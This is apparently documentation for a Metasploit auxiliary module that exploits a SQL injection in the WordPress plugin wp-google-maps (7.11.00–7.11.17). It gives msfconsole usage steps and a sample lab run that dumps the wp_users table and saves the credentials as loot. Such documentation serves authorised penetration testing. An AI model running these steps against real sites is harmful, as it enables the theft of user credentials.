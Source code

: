 ## Vulnerable Application

This module works against the Wordpress plugin `wp-google-maps` between 7.11.00 and 7.11.17 (included).

[The vulnerable version is available on WordPress' plugin directory](https://downloads.wordpress.org/plugin/wp-google-maps.7.11.17.zip).

## Verification Steps

  1. `msfconsole`
  2. `use auxiliary/admin/http/wp_google_maps_sqli`
  3. `set RHOSTS <rhost>`
  4. Set `DB_PREFIX` if necessary
  5. `run`

## Options

### `DB_PREFIX` 

Change the table prefix. By default, this option is set to `wp_`.

## Scenarios

### wp-google-maps 7.11.17 on WordPress 4.9.5

```
msf5 auxiliary(admin/http/wp_google_maps_sqli) > exploit
[*] Running module against 172.22.222.144

[*] 172.22.222.144:80 - Trying to retrieve the wp_users table...
[+] Credentials saved in: /home/msfdev/.msf4/loot/20190415065921_default_172.22.222.144_wp_google_maps.j_022930.bin
[+] 172.22.222.144:80 - Found msfdev <hash> <email>
[*] Auxiliary module execution completed
```

